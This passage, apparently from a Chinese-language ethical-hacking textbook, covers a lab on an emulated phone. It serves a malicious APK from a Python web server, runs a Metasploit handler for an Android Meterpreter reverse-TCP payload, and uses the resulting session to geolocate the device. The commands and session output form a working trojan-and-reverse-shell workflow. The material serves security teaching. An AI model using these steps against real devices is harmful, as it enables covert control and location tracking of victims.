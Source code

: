 接下来，在包含已签名恶意 APK 的文件夹中启动 Web 服务器：

```
kali@kali:~/Desktop/AndroidTrojan/$ sudo python3 -m http.server 80
```

这是我们将用来提供恶意 APK 文件的 Web 服务器。现在，在一个新的终端中启动攻击者服务器：

```
kali@kali:~/$ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD

			 android/meterpreter/reverse_tcp; set LHOST <Kali IP address>; set

			 LPORT 8443; run; exit -y"
```

打开您的仿真设备，导航到运行在 Kali Linux 机器上的 Web 服务器，并下载木马，如图 10-13 所示。

![image](img/ch10fig13.jpg)

*图 10-13：在 Android 上下载木马*

忽略指令中的警告，并允许安装第三方应用。

此时，您应该已经成功安装并连接到您的植入设备。您应该会看到以下的 Meterpreter Shell。尝试输入`geolocate`命令来获取手机位置。（记住，手机运行在虚拟机中并且无法访问 GPS，因此这个位置将被模拟。）还可以运行`help`命令查看所有可用选项。Meterpreter 并不完美，因此有些选项可能无法正常工作：

```
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => android/meterpreter/reverse_tcp
LHOST => 10.0.1.16
LPORT => 8443

[*] Started reverse TCP handler on 10.0.1.16:8443

[*] Sending stage (76756 bytes) to 10.0.1.9

[*] Meterpreter session 1 opened (10.0.1.16:8443 -> 10.0.1.9:64916) at 2021-01-14 22:19:22

    -0500

meterpreter > geolocate

[*] Current Location:

        Latitude:  37.421908

        Longitude: -122.0839815

To get the address: https://maps.googleapis.com/maps/api/geocode/json?latlng=37.421908,

                    -122.0839815&sensor=true

meterpreter > help
```